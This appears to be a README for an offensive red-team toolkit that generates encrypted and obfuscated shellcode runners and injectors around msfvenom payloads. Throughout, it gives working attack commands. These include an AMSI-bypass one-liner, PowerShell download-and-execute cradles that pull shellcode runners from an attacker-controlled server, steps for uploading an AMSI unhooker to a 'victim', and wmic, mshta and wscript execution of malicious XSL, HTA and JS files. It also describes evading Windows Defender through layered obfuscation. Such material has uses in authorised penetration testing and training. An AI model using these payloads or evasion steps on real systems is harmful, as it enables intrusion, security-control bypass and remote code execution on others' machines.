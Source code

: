 # Description

## Usage

### Static Variables 
| Variables | Description |
| --- | --- |
| PROCESS_TO_INJECT | Contains the process names that you want to inject into|
| MSFVENOM_PAYLOAD | MSF Payload |
| LHOST | Listener IP |
| LPORT | Listener Port | 

### Payload prefixes
| Name | Description |
| --- | --- |
| _embedded | If the generated payload contains the word **embedded** then the **shellcode** is located inside the generated executable. |
| _marshal | If the generated payload contains the word **marshal** then payload will be injected to executable's memory space. |
| _numa | If the generated payload contains the word **numa** then **VirtualAllocExNuma** was used insetad of **VirtualAllocEx** |
| _FlsAlloc | If the generated payload contains the word **FlsAlloc** then **FlsAlloc** API was used. |

#### Example
When payload is generated with name shellcode_runner_assembly_FlsAlloc_marshal.exe, it means:
- FlsAlloc API was used
- The Shellcode will be injected to executable's address space (Not to a remote process).
--
### Payload execution

**[+] Triple DES [+]**

The 3DES payloads are located under payloads/3DES/ directory. There are two payloads and need to be executed diferrently. 

#### Method 1
The executable **des_decryptor.exe** is downloading the file from your Web server and executes it reflectively.

```
cmd> des_decryptor.exe http://KALI_IP/<SHELLCODE_RUNNER>
```

#### Method 2
The executable embedds a shellcode runner. You can run it without providing any commands. 

```
cmd> des_decryptor_embedded.exe
```

----

### [+] AMSI Bypass
There are two methods to bypass AMSI:
- Patching 
- Unhooking

#### Method 1
Patching template is what Offensive-Security teaches in OSEP with some small changes. The execution of 1st method (Patching) is straight forward and uses well-known methodologies.

```
$m="System.Management.Automation.Ams";[Ref].Assembly.GetType("$m"+"iUtils").GetField('amsiInitFai'+'led','NonPublic,Static').SetValue($null,$true)
```

```
# XOR RAX,RAX 
$buf = [Byte[]] (0x48,0x31,0xC0)  
```

**Execute AMSI Shellcode runner**
``` 
powershell -nop -exec bypass -c IEX((New-Object Net.WebClient).DownloadString('http://<IP>/shellcode_runner.html')); 
``` 

#### Method 2
To unhook AMSI, I've used the project by **jfmaes - AmsiHooker** (https://github.com/jfmaes/AmsiHooker) and I permfored some small changes. When AmsiHooker executable will launched, it will download the Shellcode Runner from your web server and it will reflectively execute it.

**Steps**
1. Upload ```unhook_amsi.exe``` and ```MinHook.NET.dll``` to victim. (Files located under ```payloads/AMSI/```)
2. ```unhook_amsi.exe http://<KALI>/shellcode_runner.exe```

---

### [+] Executing .XSL, .JS, .HTA

Under directory ```payloads/DotNetToJScript/```, you find three shellcode ruuners that generated with **DotNetToJScript** (https://github.com/tyranid/DotNetToJScript). 

**Executing .XSL shellcode runner**
```
wmic process list /FORMAT:evil.xsl
wmic os get /FORMAT:"https://example.com/evil.xsl"
```

**Executing .HTA shellcode runner**
```
mshta c:\users\public\shellcode_runner.hta
```

**Executing .JS shellcode runner**
```
wscript c:\users\public\shellcode_runner.js
```

More execution methods can be found:
- https://lolbas-project.github.io/


#### [+] ConfuserX + Net-Obfuscator [+]

During my tests, I noticed that Windows Defender could detect payloads genereted by **ConfuserEx** (https://github.com/yck1509/ConfuserEx). For this reason, I combined ```ConfuserEx + Net-Obfuscator``` (https://github.com/BinaryScary/NET-Obfuscate). 

First, payloads that are located under ```payloads/XOR/``` and ```payloads/Caesar/``` directories, feed the **ConfuserEx** tool and subsequently the new obfuscated binaries are imported to **Net-Obfuscator**. As a result, the GetType and GetMethod values are obfuscated and  dynamically created.

**Example 1** - Execution of ```payloads/Caesar/shellcode_runner_assembly_numa.exe``` Reflectively.
```
[+] Creating DLL/EXE file (ConfuserEx + .NET Obfuscator) ...

 [!] Obfuscating CAESAR -> shellcode_runner_assembly_numa.exe
 [*] PS>$data=(New-Object System.Net.WebClient).DownloadData('http://192.168.119.120/shellcode_runner.exe|dll')
 [*] PS>$ass=[System.Reflection.Assembly]::Load($data)
 [*] PS>$ass.GetType("J46IIOTXPW.PZAZUJAD4V").GetMethod("NK6WAROB2W").Invoke($null,$null)
```
